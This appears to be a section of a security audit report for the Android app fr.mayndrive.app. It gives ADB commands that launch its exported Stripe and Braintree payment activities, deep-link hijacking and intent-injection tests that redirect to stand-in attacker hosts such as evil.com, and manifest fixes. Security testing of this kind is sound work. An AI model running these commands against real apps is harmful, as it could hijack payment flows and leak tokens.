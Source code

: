 ## 🧪 Testing Commands

### ADB Commands for Vulnerability Testing:

```bash
# Prerequisites
adb devices
adb shell pm list packages | grep mayndrive

# Test exported activities
# Test com.braintreepayments.api.DropInActivity
adb shell am start -n fr.mayndrive.app/com.braintreepayments.api.DropInActivity

# Test com.stripe.android.link.LinkRedirectHandlerActivity
adb shell am start -n fr.mayndrive.app/com.stripe.android.link.LinkRedirectHandlerActivity

# Test com.stripe.android.payments.StripeBrowserProxyReturnActivity
adb shell am start -n fr.mayndrive.app/com.stripe.android.payments.StripeBrowserProxyReturnActivity

# Test com.braintreepayments.api.BraintreeDeepLinkActivity
adb shell am start -n fr.mayndrive.app/com.braintreepayments.api.BraintreeDeepLinkActivity

# Test com.stripe.android.financialconnections.lite.FinancialConnectionsSheetLiteRedirectActivity
adb shell am start -n fr.mayndrive.app/com.stripe.android.financialconnections.lite.FinancialConnectionsSheetLiteRedirectActivity

# Deep-link hijacking tests
adb shell am start -a android.intent.action.VIEW -d 'stripe://malicious-redirect?token=stolen'
adb shell am start -a android.intent.action.VIEW -d 'mayndriveappddds://payment?amount=999999'
adb shell am start -a android.intent.action.VIEW -d 'braintree://payment?amount=999999&card=stolen'

# Intent injection tests
adb shell am start -a android.intent.action.VIEW -d 'https://malicious-site.com/steal-token' -n fr.mayndrive.app/com.stripe.android.payments.StripeBrowserProxyReturnActivity
adb shell am start -a android.intent.action.VIEW -d 'braintree://payment?return_url=https://evil.com' -n fr.mayndrive.app/com.braintreepayments.api.DropInActivity


## 🛡️ Security Recommendations

### Immediate Actions Required:

1. **Remove Activity Exports**:
   ```xml
   <activity
       android:name="com.braintreepayments.api.DropInActivity"
       android:exported="false" />
   ```

2. **Implement Custom Permissions**:
   ```xml
   <permission
       android:name="com.mayndrive.payment.PERMISSION"
       android:protectionLevel="signature" />
   
   <activity
       android:name="com.braintreepayments.api.DropInActivity"
       android:exported="true"
       android:permission="com.mayndrive.payment.PERMISSION" />
   ```
